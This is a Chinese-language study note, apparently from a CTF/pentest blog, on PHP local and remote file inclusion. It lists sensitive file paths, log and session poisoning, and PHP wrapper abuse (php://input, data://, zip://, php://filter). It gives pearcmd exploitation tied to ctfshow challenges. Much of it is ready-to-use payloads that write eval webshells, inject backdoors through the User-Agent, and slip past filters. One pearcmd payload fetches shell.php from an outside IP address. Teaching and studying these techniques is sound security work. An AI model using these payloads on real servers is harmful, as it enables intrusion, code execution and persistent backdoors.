


## 文件包含漏洞

文件包含漏洞概述
和SQL注入等攻击方式一样，文件包含漏洞也是一种注入型漏洞，其本质就是输入一段用户能够控制的脚本或者代码，并让服务端执行。

什么叫包含呢？以PHP为例，我们常常把可重复使用的函数写入到单个文件中，在使用该函数时，直接调用此文件，而无需再次编写函数，这一过程叫做包含。

有时候由于网站功能需求，会让前端用户选择要包含的文件，而开发人员又没有对要包含的文件进行安全考虑，就导致攻击者可以通过修改文件的位置来让后台执行任意文件，从而导致文件包含漏洞。

以PHP为例,常用的文件包含函数有以下四种
include(),require(),include_once(),require_once()

区别如下:

    require():找不到被包含的文件会产生致命错误，并停止脚本运行
    include():找不到被包含的文件只会产生警告，脚本继续执行
    require_once()与require()类似:唯一的区别是如果该文件的代码已经被包含，则不会再次包含
    include_once()与include()类似:唯一的区别是如果该文件的代码已经被包含，则不会再次包含
include()函数并不在意被包含的文件是什么类型，只要有php代码，都会被解析出来。比如我们上传了一个jpg格式的一句话木马，如果网站有文件包含漏洞，jpg文件就可以被当做php文件解析，所以这就是文件上传漏洞通常配合文件上传使用

## 本地文件包含漏洞（LFI）

能够打开并包含本地文件的漏洞，我们称为本地文件包含漏洞(LFI)

（1）使用绝对路径

使用绝对路径直接读取:

（2）使用相对路径进行读取

通过./表示当前位置路径，…/表示上一级路径位置，在linux中同样适用。

（3）一些常见的敏感目录信息路径:
Windows系统:

    C:\boot.ini //查看系统版本
    C:\windows\system32\inetsrv\MetaBase.xml //IIS配置文件
    C:\windows\repair\sam //存储Windows系统初次安装的密码
    C:\ProgramFiles\mysql\my.ini //Mysql配置
    C:\ProgramFiles\mysql\data\mysql\user.MYD //MySQL root密码
    C:\windows\php.ini //php配置信息

Linux/Unix系统:

    /etc/password //账户信息
    /etc/shadow //账户密码信息
    /usr/local/app/apache2/conf/httpd.conf //Apache2默认配置文件
    /usr/local/app/apache2/conf/extra/httpd-vhost.conf //虚拟网站配置
    /usr/local/app/php5/lib/php.ini //PHP相关配置
    /etc/httpd/conf/httpd.conf //Apache配置文件
    /etc/my.conf //mysql配置文件
### 本地文件包含漏洞利用

#### 配合文件上传使用

比如有时我们无法绕过文件上传，不能上传webshell，可以先上传一个图片格式的webshell到服务器内，然后再利用本地文件包含漏洞去解析我们的图片格式的webshell

实例：

upload靶场pass-15	

https://mixbp.github.io/2025/01/22/upload/

#### 包含Apache或nginx日志文件

##### 日志介绍

日志是记录系统或应用程序运行时事件的文件。这些记录可以包括错误信息、用户活动、系统性能指标等，帮助开发者和管理员监控和排查问题。

日志通常会记录多种内容，包括：

    时间戳：事件发生的具体时间。
    用户代理（UA）头：浏览器或客户端的类型和版本。
    IP地址：发起请求的用户的IP地址。
    请求方法：如GET、POST等。
    请求路径：被访问的资源URL。
    响应状态码：服务器对请求的响应状态（如200、404等）。
    用户行为：如点击、表单提交等。

##### 日志路径

在Apache中，默认日志路径通常是：

    访问日志：/var/log/apache2/access.log（Debian/Ubuntu）
    错误日志：/var/log/apache2/error.log（Debian/Ubuntu）

在NGINX中，默认日志路径通常是：

    访问日志：/var/log/nginx/access.log
    错误日志：/var/log/nginx/error.log

具体路径可能因系统配置而异。

##### 文件上传日志包含概述

```
步骤：
	首先判断是apache服务器还是nginx服务器（抓返回包查看sever头）
	上传一个正常的图片，把UA头修改为后门代码，从而将它写入日志
    上传图片，内容写入恶意代码：包含日志文件。
    利用.user.ini将图片中代码包含入upload下的php文件

这样造成的结果就是：该php文件中就会包含日志内容，也就包含了后门代码
例如：
ctfshow-web入门文件上传-160
<?=include"/var/lo"."g/nginx/access.lo"."g"?>
注意：这里log被过滤所以使用字符连接绕过

也可利用日志包含写入木马 
例如：
?file=/var/log/nginx/access.log&1=fputs(fopen(%27shell.php%27,%27w%27),%27<?php%20@eval($_POST["mixbp"])?>%27);

这里ua头改为<?php @eval($_GET[1]);?>
```

实例：

ctfshow-web入门文件上传-160	

https://mixbp.github.io/2025/01/26/ctfshow-web160/

#### 包含SESSION文件

可以先根据尝试包含到SESSION文件，在根据文件内容寻找可控变量，在构造payload插入到文件中，最后包含即可。

**利用条件:**

- 找到Session内的可控变量
- Session文件可读写，并且知道存储路径

session常见存储路径:

    /var/lib/php/sess_PHPSESSID
    /var/lib/php/sess_PHPSESSID
    /tmp/sess_PHPSESSID
    /tmp/sessions/sess_PHPSESSID
    session文件格式:sess_[phpsessid],而phpsessid在发送的请求的cookie字段中可以看到。
实例：

ctfshow-web文件包含-82

https://mixbp.github.io/2025/01/29/ctfshow-web82/

#### 包含临时文件

php中上传文件，会创建临时文件。在linux下使用/tmp目录，而在windows下使用C:\windows\temp目录。在临时文件被删除前，可以利用时间竞争的方式包含该临时文件。

常用方法：

1.配合phpinfo页面的php variables，可以直接获取到上传文件的存储路径和临时文件名，直接包含即可。

2.通过条件竞争当临时文件未被删除时，包含该临时文件

## 远程文件包含（RFI）

如果PHP的配置选项`allow_url_include`、`allow_url_fopen`状态为ON的话，则**include/require**函数是可以加载远程文件的，这种漏洞被称为远程文件包含(RFI)

例如：

源码：

```
<?php
	$path=$_GET['path'];
	include($path.'/phpinfo.php');
```

源码没有对$path做任何过滤，所以存在文件包含漏洞

在远端Web服务器/site/目录下创建一个shell.php文件，利用漏洞去读取文件，内含一句话木马

但是代码会给我们输入的路径后面加上’/phpinfo.php’后缀，如果php版本小于5.3.4，我们可以尝试使用%00截断，这里php版本为7.3.4，不适用。

还有一种截断方法就是?号截断，在路径后面输入?号，服务器会认为?号后面的内容为GET方法传递的参数

```
访问远端Web服务器的shell.php文件：
127.0.0.1/include.php?path=xxx.xxx.xxx.xx/site/shell.php?123123
```

## PHP伪协议

PHP内置了很多URL风格的封装协议，可用于类似fopen()、copy()、file_exists()和filesize()的文件系统函数，需要配合文件包含使用



### file://协议

**file://** 用于访问本地文件系统，在CTF中通常用来读取本地文件的且不受allow_url_fopen与allow_url_include的影响

用法：file:// [文件的绝对路径和文件名]

### php://协议（fliter||input）

php:// 访问各个输入/输出流（I/O streams），在CTF中经常使用的是`php://filter`和php://input
php://filter用于读取源码。
php://input用于执行php代码。

php://filter用法：

我们利用文件包含去打开一个php文件，无法直接将代码显示在页面上，但是可以使用php://filter

```
?file=php://filter/convert.base64-encode/resource=文件路径

如果php被过滤，使用大小写混用绕过，以下伪协议都可
?file=PhP://filter
```

php://input用法：

利用该方法可以直接写入php文件，现在url中输入?file=php://input，然后使用burp抓包，在POST请求中写入php代码

```
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST["mixbp"])?>');?>

//大小写混用绕过
?file=PhP://input
```

发送报文，用蚁剑连接即可

### zip://协议

zip:// 可以访问压缩包里面的文件。当它与包含函数结合时，zip://流会被当作php文件执行。从而实现任意代码执行。

    zip://中只能传入绝对路径。
    要用#分割压缩包和压缩包里的内容，并且#要用url编码成%23(即下述POC中#要用%23替换）
    只需要是zip的压缩包即可，后缀名可以任意更改。
    相同的类型还有zlib://和bzip2://
zip://协议用法：

```
例如：
zip://[压缩包绝对路径]#[压缩包内文件]?file=zip://D:\1.zip%23phpinfo.txt

例如：
zip://assets/img/upload/cbb84ddb174a0fc7eb17b8bc317a76e8ccd076ea.jpg%231
这题会自动在后面加.php，然后我们的压缩包内文件为1.php
```

### data://协议

**ata://** 同样类似与php://input，可以让用户来控制输入流，当它与包含函数结合时，用户输入的data://流会被当作php文件执行。从而导致任意代码执行。

利用data://伪协议可以达到直接执行php代码的效果：

```，
?file=data://text/plain,<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST["mixbp"])?>');?>
?file=data://text/plain,<?php @eval($_POST["mixbp"])?>
//如果此处对特殊字符进行了过滤，还可以通过base64代码编码后再输入
data://text/plain;base64,编码后的代码

//如果此处"php"被过滤，可以使用大小写混用绕过
?file=data://text/plain,<?PhP @eval($_POST["mixbp"])?>
```

### 伪协议利用条件和方法



详解地址：https://blog.csdn.net/m0_46467017/article/details/126380415

---

## **对pearcmd.php和peclcmd.php文件的包含利用**

**pear是php的一个扩展**

**PEAR和PECL共享同一套核心基础设施（命令行工具、配置文件、包管理逻辑）**

包含条件：

```
1、有文件包含点
2、开启了pear扩展
3、配置文件中register_argc_argv设置为On,而默认为off（$_SERVER['argv']生效）
4、找到pear文件的位置
该文件的位置在 /usr/share/php/pearcmd.php 或 /usr/local/lib/php/pearcmd
```

### 利用pearcmd写入shell

payload如下：

```
?+config-create+/&file=/usr/share/php/pearcmd.php&/<?=eval($_POST[1]);?>+/var/www/html/shell.php 
?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=eval($_POST[1]);?>+/var/www/html/shell.php 


如果没有权限无法写在网站根目录可以尝试写在/tmp目录下
例如：
?+config-create+/&name=cfile&value=/usr/local/lib/php/pearcmd.php&/<?=eval($_POST[1]);?>+/tmp/shell.php
```

注意：这里需要先抓包然后再bp中添加，直接在网页上添加会被url编码然后木马就会失效。

要记得抓包在bp修改一下`<`和`>`

**config-create是pearcmd.php的参数，用于创建默认配置文件。**
**这里是先包含了`pearcmd.php`文件，**
**然后将一句话木马`<?=eval($_POST[1])?>`写入了`/var/www/html/shell.php` 位置。**
**/usr/local/etc/php**

pecl同理：

```
/index.php?+config-create+/<?=eval($_POST[0])?>+/var/www/html/shell.php
```

---

### 利用pearcmd远程文件下载（下一个远程马到本地）

payload：

```
?file=/usr/local/lib/php/pearcmd&+install+-R+/tmp+http://139.9.64.44/shell.php
```

**install：安装远程扩展**
**-R：指定安装到的目录**
**/tmp：目录**
**`http://vps-ip/shell/php`：从哪下载**

---

## java环境下的伪协议利用

**jar: 伪协议**

- 原理：jar: 伪协议可以用来访问 JAR 文件中的资源。在一些存在文件包含或资源加载漏洞的 Java 应用中，可以利用该伪协议来获取 JAR 文件中的源码。
- 假设存在一个 Java 应用，通过 URLClassLoader 加载外部资源，攻击者可以构造如下 URL：

```
jar:file:/path/to/your.jar!/com/example/YourClass.class
```

- 解释：
- jar: 是伪协议名称。
- file:/path/to/your.jar 指定 JAR 文件的路径。
- !/com/example/YourClass.class 指定 JAR 文件中要访问的具体类文件。

